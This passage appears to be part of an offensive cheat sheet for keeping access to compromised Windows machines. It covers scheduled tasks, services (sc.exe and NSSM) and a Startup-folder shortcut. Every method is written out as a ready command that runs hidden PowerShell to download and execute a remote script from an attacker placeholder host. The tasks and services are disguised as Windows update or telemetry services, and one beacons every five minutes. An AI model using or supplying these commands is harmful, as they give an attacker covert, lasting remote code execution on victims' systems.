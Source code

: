 C) Persistence via Scheduled Task
- Run as SYSTEM at boot (admin):
```
schtasks /create /sc onstart /ru SYSTEM /tn "Windows System Service" ^
/tr "powershell -NoP -W Hidden -C \"IEX(New-Object Net.WebClient).DownloadString('http://<LHOST>/s.ps1')\"" /f

:: Verify
schtasks /query /tn "Windows System Service" /fo LIST /v
```
- Run on user logon (no admin if targeting current user):
```
schtasks /create /sc onlogon /tn "Windows Update" ^
/tr "powershell -NoP -W Hidden -C \"IEX(New-Object Net.WebClient).DownloadString('http://<LHOST>/s.ps1')\"" /f

:: Verify
schtasks /query /tn "Windows Update" /fo LIST /v
```
- Periodic beacon (every 5 minutes):
```
schtasks /create /sc minute /mo 5 /tn "Telemetry Service" ^
/tr "powershell -NoP -W Hidden -C \"IEX(New-Object Net.WebClient).DownloadString('http://<LHOST>/s.ps1')\"" /f
```

D) Persistence via Service (admin)
Basic sc.exe create (note the space after equals signs):
```
sc create WinUpdate binPath= "cmd.exe /c powershell -NoP -W Hidden -C \"IEX(New-Object Net.WebClient).DownloadString('http://<LHOST>/s.ps1')\"" start= auto DisplayName= "Windows Update Service"
sc description WinUpdate "Provides updates for Windows components."
sc start WinUpdate

:: Verify
sc qc WinUpdate
sc query WinUpdate
```
More robust with NSSM (if you can drop it):
```
:: Place nssm.exe in C:\ProgramData\WinUpdate\
C:\ProgramData\WinUpdate\nssm.exe install WinUpdate "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" ^
-NoP -W Hidden -C "IEX(New-Object Net.WebClient).DownloadString('http://<LHOST>/s.ps1')"
sc start WinUpdate
```

E) Startup folder shortcut (current user; no admin)
```
powershell -NoP -W Hidden -C ^
"$ws = New-Object -ComObject WScript.Shell; \
$lnk = $ws.CreateShortcut('$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\updater.lnk'); \
$lnk.TargetPath = 'C:\Windows\System32\cmd.exe'; \
$lnk.Arguments = '/c powershell -NoP -W Hidden -C \"IEX(New-Object Net.WebClient).DownloadString(''''http://<LHOST>/s.ps1'''')\"'; \
$lnk.IconLocation = 'C:\Windows\System32\shell32.dll,24'; \
$lnk.Save()"

:: Verify presence
dir "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup"
```
